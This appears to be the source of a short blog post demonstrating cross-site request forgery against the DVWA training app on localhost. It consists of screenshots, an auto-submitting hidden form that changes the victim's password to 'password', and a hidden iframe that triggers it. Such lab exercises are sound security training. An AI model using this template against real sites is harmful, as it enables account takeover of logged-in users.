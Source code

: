 ```yaml
---
layout: post
section-type: post
title: Exploiting CSRF to issue authenticated requests
category: tech
tags: [ 'kali', 'dvwa' ]
---
```


![csrf](/img/posts/csrf/csrf-0.png)

![csrf](/img/posts/csrf/csrf-1.png)

![csrf](/img/posts/csrf/csrf-2.png)

![csrf](/img/posts/csrf/csrf-3.png)

<pre><code data-trim class="html">
&#x3C;!-- csrf.html--&#x3E;
&#x3C;html&#x3E;
&#x3C;body&#x3E;
&#x3C;form action=&#x22;http://127.0.0.1/dvwa/vulnerabilities/csrf/&#x22; method=&#x22;GET&#x22; id=&#x22;csrfForm&#x22; name=&#x22;csrfForm&#x22;&#x3E;
&#x9;&#x3C;input name=&#x22;password_new&#x22; value=&#x22;password&#x22; /&#x3E;
&#x9;&#x3C;input name=&#x22;password_conf&#x22; value=&#x22;password&#x22; /&#x3E;
&#x9;&#x3C;input name=&#x22;Change&#x22; value=&#x22;Change&#x22; /&#x3E;
&#x3C;/form&#x3E;
&#x3C;script&#x3E;
document.forms[&#x22;csrfForm&#x22;].submit();
&#x3C;/script&#x3E;
&#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code></pre>

<pre><code data-trim class="html">
&#x3C;html&#x3E;
&#x3C;body&#x3E;
&#x3C;iframe src=&#x22;file:///root/Desktop/csrf.html&#x22; style=&#x22;display:none&#x22; /&#x3E;
&#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code></pre>
